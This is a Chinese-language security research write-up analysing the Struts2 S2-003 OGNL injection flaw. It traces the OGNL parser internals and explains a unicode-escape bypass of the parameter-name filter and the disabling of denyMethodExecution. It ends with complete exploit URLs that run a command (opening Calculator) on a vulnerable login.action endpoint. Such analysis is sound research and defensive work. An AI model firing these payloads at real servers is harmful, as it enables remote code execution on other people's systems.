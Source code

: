 # S2-003漏洞分析

文章里面多了很多我自己的见解没有单纯去copy

## 注意

强烈建议将Tomcat使用Tomcat7以下，这里我用的Tomcat6.0.20，高版本出现特殊符号会报错(4XX)

当然高版本也是可以用的怎么说呢

## 漏洞影响版本

Struts 2.0.0 - Struts 2.1.8.1

## 分析

漏洞触发形式为 `(one)(two)` 表达形式，属于 `ASTEval` 类型，一些详情可以看https://xz.aliyun.com/t/111，属于是不想看了

我们可以看看`ognl.ASTEval#getValueBody`的执行流程

![](img/1.png)

1. 取 one的内容，调用 `getValue()` 方法计算后赋值到 expr 
2. 取 two的内容，赋值给 source
3. 判断 expr 是否为 node 类型，是的话直接转型，否则调用 `Ognl.parseExpression()` 进行解析强转为 node 类型
4. 将 source 放入 root 中并调用 node 的 `setValue()` 方法进行解析

同时如果one 的结果是一个 AST，OGNL 将简单的执行解释它，否则 OGNL 将这个对象转换为字符串形式然后解析这个字符串

学习su18师傅的比如这样

```java
('@java.lang.Runtime'+'@getRuntime().exec(\'open -a Calculator.app\')')('aaa')
('@java.lang.Runtime@'+'getRuntime().exec(#aa)')(#aa='open -a Calculator.app')
```

但是同样的payload放在`setValue`就不行了

![](img/2.png)

这里不能触发原因是这里，而我们之前的`ognl.ASTChain#getValueBody`是`super.children.length - 1`

![](img/4.png)

如果我这里手动改为-1的值，确实可以成功触发的

![](img/5.png)

回到这个话题，目的是通过这个setValue去解决，可是为什么报错主要是`ASTMethod`没有`setValueBody`导致的

![](img/6.png)

但是我们仔细看，在之前`ognl.ASTEval#setValueBody`，可以在这里触发`getValue`

我们之前的payload

```java
Object o = Ognl.parseExpression("('@java.lang.Runtime@'+'getRuntime().exec(#aa)')(#aa='open -a Calculator.app')");
```

到了这里就是

![](img/7.png)

那如果我们能到这里构造就触发那不就行了吗

![](img/3.png)

可以看到如果在不是常量就会去调用`getValueBody`

![](img/8.png)

可以

```java
Object o = Ognl.parseExpression("(@java.lang.Runtime@getRuntime().exec('open -a Calculator.app'))('')");
```

或者

```java
 Object o = Ognl.parseExpression("('@java.lang.Runtime@'+'getRuntime().exec(#aa)')(#aa='open -a Calculator.app')('y4tacker')");
```

都可以成功弹出计算器这时候高高兴兴拿着payload去打

![](img/9.png)

这里首先遇到的第一个坑是`acceptableName`其实是一个过滤

```java
    protected boolean acceptableName(String name) {
        return name.indexOf(61) == -1 && name.indexOf(44) == -1 && name.indexOf(35) == -1 && name.indexOf(58) == -1 && !this.isExcluded(name);
    }
```

不能出现这些字符，绕过方式很简单，这里在对表达式进行解析时，由于在 `OgnlParserTokenManager` 方法中使用了 `ognl.JavaCharStream#readChar()` 方法，在读到 `\\u` 的情况下，会继续读入 4 个字符，并将它们转换为 char，因此 OGNL 表达式实际上支持了 unicode 编码，这就绕过了之前正则或者字符串判断的限制

因此payload改为

```java
('@java.lang.Runtime@'+'getRuntime().exec(\u0023aa)')(\u0023aa\u003d'open\u0020-a\u0020Calculator.app')('y4tacker')
```

这里调用静态函数受`xwork.MethodAccessor.denyMethodExecution`属性影响

![](img/10.png)

在这之前就调用了，所以要想执行命令首先得要把这个属性设置为false

![](img/11.png)

得到最终payload了

```java
http://127.0.0.1:8080/login.action?(%27\u0023context[\%27xwork.MethodAccessor.denyMethodExecution\%27]\u003dfalse%27)(abc)(def)&('\u0040java.lang.Runtime%40'%2B'getRuntime().exec(%5Cu0023aa)')(%5Cu0023aa%5Cu003d'open%5Cu0020-a%5Cu0020Calculator.app')('y4tacker')
```

这里你可能会好奇为什么我的payload这个`@`符号明明没有在被过滤但是也用了`unicode`编码，这里的迭代器是来源于`TreeMap`是有序的

![](img/12.png)

## 高版本触发

只需要将一些关键字符url编码下即可

```
http://127.0.0.1:8080/login.action?(%27%5Cu0023context%5B%5C'xwork.MethodAccessor.denyMethodExecution%5C'%5D%5Cu003dfalse')(abc)(def)&('%5Cu0040java.lang.Runtime%40'%2B'getRuntime().exec(%5Cu0023aa)')(%5Cu0023aa%5Cu003d'open%5Cu0020-a%5Cu0020Calculator.app')('y4tacker')
```



## 参考文章

https://xz.aliyun.com/t/111

https://su18.org/post/struts2-1/#s2-003
